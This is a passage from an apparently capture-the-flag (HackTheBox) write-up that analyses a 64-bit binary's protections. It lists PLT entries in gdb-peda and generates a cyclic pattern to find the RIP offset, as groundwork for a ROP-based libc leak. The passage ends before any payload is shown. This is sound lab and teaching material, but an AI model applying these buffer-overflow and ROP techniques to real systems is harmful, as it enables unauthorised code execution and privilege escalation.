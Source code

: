 
So I don’t have to deal with stack canaries or PIE (which means the non-
library code will be statically addressed). But I do have NX (so no stack
execution), and it’s a 64-bit binary with ASLR. While in a 32-bit case like
[October](/2019/03/26/htb-october.html#privesc-to-root) I could just brute
forced my way past that, the address space in x64 is too big. So my options
are to look for a PLT entry that will give me execution (like I did in
[RedCross](/2019/04/13/htb-redcross.html#path-3-bof-in-iptctl)), or to find a
way to use ROP to leak a library address, which I can use to calculate the
address of libc, and then ROP to execution.

I’ll open the binary in `gdb`. I also have `source ~/peda/peda.py` in my
`~/.gdbinit` file, so [Peda](https://github.com/longld/peda) will load on
start. I can check for interesting functions in the PLT (because PIE is off,
these addresses will be static):

    
    
    gdb-peda$ plt
    Breakpoint 1 at 0x400760 (execvp@plt)
    Breakpoint 2 at 0x400770 (exit@plt)
    Breakpoint 3 at 0x400750 (fflush@plt)
    Breakpoint 4 at 0x400730 (fgets@plt)
    Breakpoint 5 at 0x400790 (fork@plt)
    Breakpoint 6 at 0x400740 (inet_pton@plt)
    Breakpoint 7 at 0x400720 (printf@plt)
    Breakpoint 8 at 0x400700 (puts@plt)
    Breakpoint 9 at 0x400780 (setuid@plt)
    Breakpoint 10 at 0x4006f0 (strcpy@plt)
    Breakpoint 11 at 0x400710 (strlen@plt)
    Breakpoint 12 at 0x4006e0 (strncpy@plt)
    Breakpoint 13 at 0x4007a0 (strstr@plt)
    

Nothing there is going to be useful as far as starting execution. I’ll need to
use one of those to leak the address of a function in libc, and use that to
calculate the address of a more useful function.

### RIP

Now I need to check that I can control RIP, and get the offset while I’m at
it. First, I’ll create a pattern:

    
    
    gdb-peda$ pattern_create 400
    'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%LA%hA%7A%MA%iA%8A%NA%jA%9A%OA%kA%PA%lA%QA%mA%RA%oA%SA%pA%TA%qA%UA%rA%VA%tA%WA%uA%XA%vA%YA%wA%ZA%xA%y'
    

Now, I’ll run the program (`r`), and enter that pattern when it asks me for
the password:

    
    